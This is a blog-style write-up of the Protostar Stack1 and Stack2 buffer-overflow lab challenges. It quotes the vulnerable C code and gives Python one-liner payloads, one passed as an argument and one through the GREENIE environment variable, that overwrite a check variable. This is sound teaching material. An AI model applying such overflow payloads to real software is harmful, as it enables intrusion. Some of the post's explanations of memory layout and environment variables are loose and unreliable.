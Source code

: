```yaml
---
layout: post
title: Buffer Overflow Practical Examples , Hexadecimal values and Environment Variables ! - Protostar Stack1 , Stack2
categories: binary-exploitation
image: binary-exploitation/BOF2/0.png
redirect_from: "/BinaryExploitation-BOF2/"
---
```


<hr>
## Introduction 
#### So last week I talked about bufferoverflows and solved Protostar Stack0. Today I'm gonna solve Stack1 and Stack2, they are not different from Stack0 in their objective which is changing a variable's value , but they are different in the way of changing that variable for sure. With that being said let's jump right in !
![](/images/binary-exploitation/BOF2/0.png)
#### If you haven't read my previous [post](/BinaryExploitation-BOF/) yet I recommend reading it before this.
<br>
<hr>
## Stack1
#### For this challenge we got this code : 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];

 if(argc == 1) {
  errx(1, "please specify an argument\n");
 }

 modified = 0;
 strcpy(buffer, argv[1]);

 if(modified == 0x61626364) {
  printf("you have correctly got the variable to the right value\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
}
```
<hr>
### Breakdown
#### So this code :
#### creates a variable called "modified" and assigns a buffer of 64 chars to it.
```
volatile int modified; 
char buffer[64];
``` 
<br>
#### Checks if we supplied an argument or not.
```
 if(argc == 1) {
  errx(1, "please specify an argument\n");
 }
```
<br>
#### Sets the value of the "modified" variable into 0 , then it copies whatever we give it `argv[1]` into the buffer of "modified".
```
modified = 0;
strcpy(buffer, argv[1]);
```
<br>
#### Then it checks if the variable's value is `0x61626364` or not
```
if(modified == 0x61626364) {
  printf("you have correctly got the variable to the right value\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
```
<br>
<hr>
## Solution
#### So it's similar to Stack0 except we need to set the value of the variable into a specific value which is `0x61626364` in this case. This is the hexadecimal value of "dcba" now keep in mind that when reading hex you read it from right to left not left to right. To slove this our input will be 64 chars then after that the value , let's try it.
#### Let's execute stack1 
![](/images/binary-exploitation/BOF2/1.png)
#### We get please specify an argument so let's enter anything.
![](/images/binary-exploitation/BOF2/2.png)
<br>
<br>
<br>
![](/images/binary-exploitation/BOF2/3.png)
#### We get try again you got 0x00000000 , Let's try to change that by exceeding the buffer and entering any char for example "b"
```
./stack1 `python -c "print ('A' * 64 + 'b')"`
```
![](/images/binary-exploitation/BOF2/4.png)
#### And we see that the value changed to 0x00000062 which is the hex value of "b" so our exploit is working, Let's apply that.
```
./stack1 `python -c "print ('A' * 64 + 'dcba')"`
```
![](/images/binary-exploitation/BOF2/5.png)
#### And we did it ! 
#### But can we do it in another way ? instead of entering ASCII we can use the hex values and python will translate them.
```
./stack1 `python -c "print('A' * 64 + '\x64\x63\x62\x61')"`
```
![](/images/binary-exploitation/BOF2/6.png)
<br>
<hr>
## Stack2
#### For this challenge we got this code :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];
 char *variable;

 variable = getenv("GREENIE");

 if(variable == NULL) {
  errx(1, "please set the GREENIE environment variable\n");
 }

 modified = 0;

 strcpy(buffer, variable);

 if(modified == 0x0d0a0d0a) {
  printf("you have correctly modified the variable\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }

}
```
<br>
<hr>
### Breakdown 
#### This code :
#### As always creates a variable called "modified" and assigns a buffer of 64 chars to it 
```
volatile int modified;
char buffer[64];
```
<br>
#### The new thing here is a variable called "variable" which gets its value from an environment variable called "GREENIE". 
```
variable = getenv("GREENIE");
```
<br>
#### The program checks if the variable "variable" has a value or not 
```
if(variable == NULL) {
  errx(1, "please set the GREENIE environment variable\n");
 }
```
<br>
#### Sets the value of modified to 0
```
modified = 0;
```
<br>
#### Then it copies the value of "variable" into the buffer of "modified"
```
strcpy(buffer, variable);
```
<br>
#### After that it checks if the value of "modified" is `0x0d0a0d0a` or not
```
if(modified == 0x0d0a0d0a) {
  printf("you have correctly modified the variable\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
```
<hr>
## Solution 
#### So this time we can't specify the value directly instead of that we have to do it through an environment variable. And this is actually a good example that shows the importance of being creative with your exploits , you won't face the same situation every time so you have to come up with an exploit that fits with the application's functionality.
#### In this situation we can apply our usual exploit and store that value into the environment variable "GREENIE".
#### But wait a minute , what is an environment variable ?
<hr>
### Environment Variables
#### Simply , Environment variables are variables that are being used to store values of some stuff that the system uses also the services can access those variables. For a better demonstration let's see an example.
#### If we take the environment variable BASH and look at it :
![](/images/binary-exploitation/BOF2/7.png)
#### We see that its value is : /bin/bash
#### So for example if I want to run bash I type bash in the terminal instead of `./bin/bash` because the system calls the variable BASH and finds its path.
#### But the system won't store a variable for every binary that exists on the system so there's an environment variable called PATH which has all the possible dirs that could contain bins, So when you type for example : python, it searches in those dirs then executes python 
![](/images/binary-exploitation/BOF2/8.png)
#### So you get the idea. Understanding environment variables is not necessary for this challenge but I wanted to talk about it just to make everything clear for anyone.
#### [More about environment variables](https://en.wikipedia.org/wiki/Environment_variable)
<br>
<hr>
#### Now let's execute stack2
![](/images/binary-exploitation/BOF2/9.png)
#### We get Please set the GREENIE environment variable.
#### There's no environment variable called GREENIE so we need to create it. We will make it's value equal to 64 chars then `0x0d0a0d0a`
#### This time we won't be able to use the value in ASCII like we did with stack1 because `0x0d` is a return `\r` and `0x0a` is a new line `\n` and we can't type those so we will use the hex values and python will translate them.
```
GREENIE = `python -c "print ('A' * 64 + '\x0a\x0d\x0a\x0d')"`
```
![](/images/binary-exploitation/BOF2/10.png)
#### When we look at it we only see the 64 A's and that's because we can't see the new line or the return
#### Now we need to export it to the environment variables list then we are good to go. 
```
export GREENIE
./stack2
```
![](/images/binary-exploitation/BOF2/11.png)
#### And we did it ! 
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Buffer Overflow article : [Binary Exploitation - Buffer Overflow Explained in Detail](/binary-exploitation/bof1/)
#### Next Buffer Overflow article : [Buffer Overflow Practical Examples , metasploit , gdb and objdump ! - protostar stack3](/binary-exploitation/bof3/)
<hr>
